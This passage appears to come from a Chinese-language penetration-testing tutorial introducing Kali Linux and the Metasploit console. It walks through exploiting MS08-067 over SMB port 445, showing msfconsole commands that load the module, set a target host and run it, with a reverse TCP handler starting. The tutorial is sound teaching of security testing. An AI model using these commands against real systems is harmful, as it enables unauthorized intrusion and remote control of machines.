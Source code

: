 Kali 是一个流行的 Linux 发行版，专门为安全相关的活动而创建，包括渗透测试。Kali 包括大量对渗透测试有用的工具。这包括 Metasploit 的一个版本，尽管这个版本没有 Web 界面。如果你想要一个包含所有入门工具的操作系统，你可以使用 Kali。Kali 不包含 Web 接口的事实是这里使用 Metasploit 命令行接口的原因之一。

我们将看一下 Metasploit 的命令行版本，这样您可以清楚地看到发生了什么。你可以通过网络界面做同样的事情，而不需要打字。在我们的例子中，我们将使用 Metasploit 控制台来搜索通过扫描识别的漏洞之一。首先，我们需要加载 msfconsole。这是在 Linux 系统上完成的，但是您也可以在 Windows 系统上做同样的事情，而且只需一点努力，您就可以让它在 Mac OS X 系统上也能工作，因为 Metasploit 是用 Ruby 编写的。您可以看到 msfconsole 正在启动，然后您开始搜索 MS08-067 漏洞。如果您发现系统仍然易受其攻击，这恰好是一种非常可靠的利用方法，并且考虑到多少年来这是一种非常流行的利用系统的方法，因为系统没有被修补，您完全有可能仍然在系统上发现这种方法。即使您不知道，我们也要看看这个特殊的漏洞，以此来演示 Metasploit 是如何工作的。

```
root@senatorbedfellow:∼# msfconsole

     ,           ,
    /             \
   ((__---,,,---__))
      (_) O O (_)_________
         \ _ /            |\
          o_o \   M S F   | \
               \   _____  |  *
                |||   WW|||
                |||     |||

Payload caught by AV? Fly under the radar with Dynamic Payloads in
Metasploit Pro -- learn more on http://rapid7.com/metasploit

       =[ metasploit v4.11.15-dev                         ]
+ -- --=[ 1524 exploits - 887 auxiliary - 260 post        ]
+ -- --=[ 436 payloads - 38 encoders - 8 nops             ]
+ -- --=[ Free Metasploit Pro trial: http://r-7.co/trymsp ]

msf > search ms08

```

Metasploit 将模块存储在具有特定结构的目录树中。有一个 Postgresql 数据库支持 Metasploit 来存储有关主机、漏洞和其他资产的信息。Metasploit 还将保存所有模块的索引，以便更快地找到它们。一旦我们知道模块在哪里，我们就需要加载它。我们通过告诉 Metasploit 使用该模块来做到这一点。您可以在下面的代码中看到整个事务，您可以看到我们选择了模块的完整路径，因为它存在于 Metasploit 包含的目录树中。一旦我们表明我们将使用`exploit/windows/smb/ ms08_067_netapi`模块，我们需要设置一些选项以便我们可以使用它。不同的模块可能有不同的选项集。这个特定模块的选项非常有限。我们需要设置远程主机和远程端口。远程端口将是 445，因为这是通用 Internet 文件系统(CIFS)监听的端口。远程主机将成为我们的目标。您可能会注意到该模块有一个熟悉的名称。它以 Microsoft 公告命名，因为它利用了该公告中说明的漏洞。

```
msf > use exploit/windows/smb/ms08_067_netapi

msf exploit(ms08_067_netapi) > set RHOST 172.30.42.18
RHOST => 172.30.42.18

msf exploit(ms08_067_netapi) > show options

Module options (exploit/windows/smb/ms08_067_netapi):

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   RHOST    172.30.42.18     yes       The target address
   RPORT    445              yes       Set the SMB service port
   SMBPIPE  BROWSER          yes       The pipe name to use (BROWSER, SRVSVC)

Exploit target:

   Id  Name
   --  ----
   0   Automatic Targeting

msf exploit(ms08_067_netapi) > exploit

[*] Started reverse TCP handler on 172.30.42.20:4444

```